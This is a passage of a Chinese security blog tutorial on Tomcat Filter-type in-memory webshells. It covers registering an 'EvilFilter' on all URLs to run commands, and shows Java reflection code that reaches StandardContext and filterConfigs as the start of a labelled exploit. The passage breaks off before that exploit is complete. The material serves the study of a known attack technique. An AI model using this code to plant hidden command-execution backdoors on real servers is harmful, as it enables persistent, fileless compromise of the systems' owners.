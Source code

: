 ```
```

记得先把 web.xml 里面的类修改为 EvilFilter。并将 web.xml 的这一内容修改如下 `<url-pattern>/*</url-pattern>`

- 先跑一下测试一下，成功

![img](https://drun1baby.top/2022/08/22/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-03-Tomcat-%E4%B9%8B-Filter-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/SuccessTestJSPShell.png)

本质上其实就是 Filter 中接受执行参数，但是如果我们在现实情况中需要动态的将该 Filter 给添加进去。

由前面**Filter实例存储分析**得知 `StandardContext` Filter实例存放在filterConfigs、filterDefs、filterConfigs这三个变量里面，将fifter添加到这三个变量中即可将内存马打入。那么如何获取到`StandardContext` 成为了问题的关键。

我们一开始尝试通过这种方式获取，是会报错的

JAVA

```
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();  

StandardRoot standardroot = (StandardRoot) webappClassLoaderBase.getResources();  

StandardContext standardContext = (StandardContext) standardroot.getContext();
```

![img](https://drun1baby.top/2022/08/22/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-03-Tomcat-%E4%B9%8B-Filter-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/Error500.png)

- 下面是可用的 EXP

### Filter 型内存马 EXP

我们这里尝试分步骤自己手写一下 EXP，构造思路在上面，这里就不赘述了，画一个流程图方便师傅们理解一下。

![img](https://drun1baby.top/2022/08/22/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-03-Tomcat-%E4%B9%8B-Filter-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/AttackRoute.png)

先是通过反射获取到 standContext

JAVA

```
ServletContext servletContext = request.getSession().getServletContext();  
  
 Field appctx = servletContext.getClass().getDeclaredField("context");  
 appctx.setAccessible(true);  
 ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);  
  
 Field stdctx = applicationContext.getClass().getDeclaredField("context");  
 stdctx.setAccessible(true);  
 StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);  
  
  
  
 String FilterName = "cmd_Filter";  
 Configs = standardContext.getClass().getDeclaredField("filterConfigs");  
 Configs.setAccessible(true);  
 filterConfigs = (Map) Configs.get(standardContext); 
```
